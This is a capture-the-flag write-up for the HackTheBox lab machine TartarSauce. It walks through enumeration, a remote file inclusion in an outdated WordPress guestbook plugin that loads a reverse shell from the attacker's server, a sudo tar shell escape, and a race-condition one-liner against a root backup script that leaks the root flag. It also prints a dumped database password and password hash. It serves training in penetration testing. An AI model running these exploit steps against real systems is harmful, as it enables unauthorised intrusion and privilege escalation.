


# TartarSauce - Medium

Target IP: **10.129.1.185**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.1.185 -v```

There is only one port open, port 80. It's running Apache 2.4.18.

There are some disallowed entries in ```/robots.txt```, which we should check out.

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/
```

Let's first navigate to the webpage.

We are greeted with this page. There doesn't seem to be anything here.



Let's investigate the entries on ```robots.txt```.

It seems like we don't have access to any of them, as they tell us they are either not found or we lack permissions to view the resource.

Enumerating for directories again on ```/webservices``` gets us a single hit, ```/wp```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-6z49joa0jh]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.1.185/webservices/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.1.185/webservices/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wp                      [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 7ms]
:: Progress: [87651/87651] :: Job [1/1] :: 5714 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

Navigating to it, there is a blog site under construction that is powered by WordPress.



Clicking on the blog post leads us to ```http://tartarsauce.htb```, so let's add it to our ```/etc/hosts``` file.

We can see the version of WordPress in the source code, but there doesn't seem to be any directly relevant CVEs associated with it.

```
<meta name="generator" content="WordPress 4.9.4" />
```

Let's enumerate WordPress with ```wpscan```.

We get some interesting plugins being used.

```
[+] Enumerating Most Popular Plugins (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:02 <============================================================> (1498 / 1498) 100.00% Time: 00:00:02
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/akismet/
 | Last Updated: 2026-08-18T23:42:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 5.7.2
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.0.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/akismet/readme.txt

[+] gwolle-gb
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2026-09-22T10:12:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 5.1.1
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
```

Looking in the readme for gwolle-gb, I found this in the changelog.

```
== Changelog ==

= 2.3.10 =
* 2018-2-12
* Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D

= 1.5.3 =
* 2015-10-01
* When email is disabled, save it anyway when user is logged in.
* Add nb_NO (thanks Bjørn Inge Vårvik).
* Update ru_RU.
```

It seems like the accurate version is 1.5.3. This version is vulnerable to CVE-2015-8351, a remote file inclusion vulnerability.

At this endpoint, the abspath parameter is passed into ```require()``` without proper sanitization.

```/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=```

Let's see how it works. I started up an http server on my attack box, then sent a curl request pointing to the server to the vulnerable endpoint.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-6z49joa0jh]─[~]
└──╼ [★]$ curl http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.194:8000/
```

Upon sending this request, we get a hit on our server, and the website is looking for a ```wp-load.php``` file.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-6z49joa0jh]─[~]
└──╼ [★]$ sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.1.185 - - [29/Sep/2026 14:58:48] code 404, message File not found
10.129.1.185 - - [29/Sep/2026 14:58:48] "GET /wp-load.php HTTP/1.0" 404 -
```

Knowing this behavior, we can craft a malicious ```wp-load.php``` file containing reverse shell code. It should then be ran and give us a connection. Let's try it.

Upon running the curl command, it hangs. That's a good sign. Coming back to our listener, we get a shell as ```www-data```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-6z49joa0jh]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.1.185 41826
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 15:02:51 up 19:41,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

There is an ```onuma``` user in ```/home``` that we cannot view the contents of.

```
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root  root  4096 May 12  2022 .
drwxr-xr-x 22 root  root  4096 May 12  2022 ..
drwxrw----  5 onuma onuma 4096 May 12  2022 onuma
$ cd onuma
/bin/sh: 5: cd: can't cd to onuma
```

Inside ```/var/www/html/webservices/wp```, ```wp-config.php``` holds database credentials.

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wp');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
```

We get access with these credentials.

```
www-data@TartarSauce:/$ mysql -u wpuser -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 42
Server version: 5.7.22-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Let's look at the tables inside the ```wp``` database.

```
mysql> SHOW TABLES;
+-----------------------+
| Tables_in_wp          |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_gwolle_gb_entries  |
| wp_gwolle_gb_log      |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
14 rows in set (0.00 sec)
```

```wp_users``` seems like what we are looking for.

We get a password hash inside.

```
mysql> SELECT * FROM wp_users;
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |          | 2018-02-09 20:49:26 |                     |           0 | wpadmin      |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)
```

However, I can't crack the hash, which makes me think we aren't on the intended path.

I was used to the format of HackTheBox Labs where we would get initial access as ```www-data```, then dig through the file system to find some kind of credentials, then use those credentials to laterally move to a user account. However, checking ```sudo -l``` for the ```www-data``` user reveals that we can run ```/bin/tar``` as ```onuma```.

```
www-data@TartarSauce:/var/www$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Looking on GTFOBins, running this command gives us ```onuma```.

```www-data@TartarSauce:/var/www$ sudo -u onuma tar xf /dev/null -I '/bin/sh -c "/bin/sh 0<&2 1>&2"'```

We can proceed to get the user flag from here.

## Root Flag

There is an unusual file in ```/home/onuma```, but it's a symlink pointing to ```/dev/null```.

```
onuma@TartarSauce:~$ ls
shadow_bkp  user.txt
```

There is a really weird file that has the SUID bit set.

```
/var/www/html/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/??????g??????_5h377
```

I'm just going to ignore this for now...

```
onuma@TartarSauce:/var/www/html/webservices/wp/wp-content/plugins/gwolle-gb/fron
tend/captcha$ cat ??????g??????_5h377
7195904a7a857c6bc2dca996df9a0289c86beda9b4a34db0acb215d7a3961c8f243c6a9280d56b4cc7be936951dd4ad3b7330b5e15bd8a20ed37e783160bef9e5bb23027c12f548e4555f6054b38165cbe279a84a90f4759239f8e3924d90c49774286106f787fd1544eeddbc7d68dcf4303909de4f8add79b342841cb95dc3688fab24faa7e9bdae31292398f0cbaf5b41327e52d95abe899d0bff84d35a5d020ca72ef7f252913010cda9dc1585b62226e55baa89102d0cad07b3756b44a25a2731611f3843a318690c1b06f919dba07ee084f5e7ac1f0303db80f217994c58c653b75e5dd04ace79a190dd0193ead644ce51aee2c518637ab431582c9e2cd99698a1cc84d7eb64e470d9e76fded2ec0ab8e2046195236e5bcc7415c3eed0fb8f255c6f00cbef49cf47acec9f2b67953ca2cde330133d87aece14fd8a45ca24c1637bdc6a6503e31fbe2218bc0fc3d66e52d13a217f847e514f4a2a6e1cb9ca0c8b5ee0dc7fa55b969fdde858adfe9a0a67d6be731686787c5f74331e60f3b08e0d1ddd29a28a22db101f057d98d9a5dd561e4ef54c5bfb55c0542ad23be049367fc46a320225c80d8...
```

Running ```pspy``` on the remote machine and waiting for a bit revealed a script being ran every five minutes or so.

```
2026/09/29 15:39:49 CMD: UID=0     PID=11185  | /bin/bash /usr/sbin/backuperer 
.
.
.
2026/09/29 15:45:10 CMD: UID=0     PID=11280  | /bin/bash /usr/sbin/backuperer 
```

Let's see what it does.

At a high level, it uses ```tar``` to create an archive of ```/var/www/html``` at ```/var/tmp/.<random sha1>```, then sleeps for 30 seconds, extracts it to ```/var/tmp/check```, then runs an integrity check where if the files at ```/check``` differ from the files at ```/var/www/html```, it writes the output from the integrity check on the error log.

```
onuma@TartarSauce:~$ cat /usr/sbin/backuperer
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

We want to exploit the 30 second sleep timer to extract the archive, replace one of the files to a symlink pointing to the root flag, then use tar to zip it again. Thus, when the integrity check is ran, it will print the flag on the error log.

We can achieve this by running this bash script.

```
onuma@TartarSauce:/dev/shm$ cd /dev/shm; start=$(find /var/tmp -maxdepth 1 -type f -name ".*"); cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); while [ "$start" == "$cur" -o "$cur" == "" ] ; do sleep 10; cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); done; echo "File changed... copying here"; cp $cur .; fn=$(echo $cur | cut -d'/' -f4); tar -zxf $fn; rm var/www/html/robots.txt; ln -s /root/root.txt var/www/html/robots.txt; rm $fn; tar czf $fn var; mv $fn $cur; rm $fn; rm -rf var
```

In the output of the error log, we see the flag.

```
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Thu Jan 21 05:38:54 EST 2021
------------------------------------------------------------------------
/var/tmp/.379fe8e77f9f84a66b9a6df9a452d10499713829
Binary files /var/www/html/webservices/wp/.wp-config.php.swp and /var/tmp/check/var/www/html/webservices/wp/.wp-config.php.swp differ
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Tue Sep 29 16:22:45 EDT 2026
------------------------------------------------------------------------
/var/tmp/.7c86ff256bd0e8a966652aa6b80259cc9d2787e4
Only in /var/www/html: index.html
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
< 
---
> ******************************
```

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
